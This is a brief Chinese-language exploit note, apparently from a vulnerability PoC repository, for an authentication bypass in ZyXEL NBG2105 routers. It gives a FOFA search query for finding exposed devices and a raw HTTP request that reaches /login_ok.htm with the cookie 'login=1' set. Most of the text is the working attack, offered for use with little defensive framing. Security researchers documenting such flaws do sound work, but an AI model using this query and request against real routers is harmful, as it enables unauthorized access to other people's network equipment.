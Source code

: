 # Zyxel NBG2105 身份验证绕过

## 资产搜索：

fofa app="ZyXEL-NBG2105"  
![](img/login.png)

## POC：
访问`url/login_ok.htm` cookie设置为`login=1`
```shell
GET /login_ok.htm HTTP/1.1
cookie:login=1
```
![](img/passlogin.jpg)
